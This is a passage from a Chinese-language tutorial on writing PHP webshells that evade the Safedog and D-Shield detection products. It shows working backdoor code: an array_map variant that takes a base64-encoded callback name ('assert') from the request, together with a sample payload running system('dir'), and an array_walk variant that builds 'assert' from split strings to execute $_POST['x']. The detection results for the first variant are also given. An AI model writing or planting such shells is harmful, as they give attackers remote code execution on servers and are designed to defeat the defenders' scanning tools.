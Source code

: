 array_map() 函数将用户自定义函数作用到数组中的每个值上，并返回用户自定义函数作用后的带有新值的数组。和 arrray_walk() 函数差不多：

```php
<?php
    $e = $_REQUEST['e'];
    $arr = array($_POST['pass'],);
    array_map(base64_decode($e), $arr);
?>
    # payload  e=YXNzZXJ0&pass=system('dir');
```

依然被杀了，检测结果如下：

| 安全狗                     | D盾             |
| :------------------------- | :-------------- |
| 1 个安全风险 array_map执行 | 级别 5 已知后门 |

#### array_walk()

```php
array_walk(array,myfunction,parameter...)
```

array_walk() 函数对数组中的每个元素应用用户自定义函数。在函数中，数组的键名和键值是参数。

| 参数         | 描述                                                         |
| :----------- | :----------------------------------------------------------- |
| *array*      | 必需。规定数组。                                             |
| *myfunction* | 必需。用户自定义函数的名称。                                 |
| *userdata*,… | 可选。规定用户自定义函数的参数。您能够向此函数传递任意多参数。 |

简单案例：

```php
<?php
function myfunction($value,$key)
{
    echo "The key $key has the value $value<br>";
}
$a=array("a"=>"red","b"=>"green","c"=>"blue");
array_walk($a,"myfunction");
?>
```

运行结果如下：

```php
The key a has the value red
The key b has the value green
The key c has the value blue
```

根据这个特性手动来写一个 webshell 试试看：

```php
<?php
    function sqlsec($value,$key)
    {   
        $x = $key.$value;
        $x($_POST['x']);
    }
    $a=array("ass"=>"ert");
    array_walk($a,"sqlsec");
?>
```
